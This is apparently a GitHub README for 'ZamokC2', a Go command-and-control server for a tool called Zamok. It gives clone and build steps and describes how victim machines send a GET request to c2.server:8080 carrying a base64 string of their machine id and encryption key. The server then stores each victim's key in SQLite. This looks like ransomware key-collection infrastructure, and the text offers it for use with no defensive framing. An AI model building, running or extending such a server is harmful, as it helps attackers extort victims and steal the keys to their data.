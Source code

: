 # ZamokC2
A simple yet effective C2 Server for Zamok

## Setup :
- Clone this repository
- Navigate to the project directory and run :
    ```
    go get
    ```
- To build the C2, run :
    ```
    go build -o zamokc2
    ```
## You can now start it by simply running :
    ```
    ./zamokc2
    ```

## How it works :
1. Starts a listener on port 8080 (the default one; you can change it)
2. It expects a GET request from the target/victim 
3. The GET request is like this :
    ```
    GET http://c2.server:8080/<SOME_STRING>
    ```
    Where :
    - SOME_STRING is a base64 string of the victim machine id and the encryption/decryption key concatenated with a :
4. The C2 breaksdown the request and gets the 2 values, the id and the key
5. It saves these values to an SQLite database
6. It displays a banner on the terminal, with the details of the new victim machine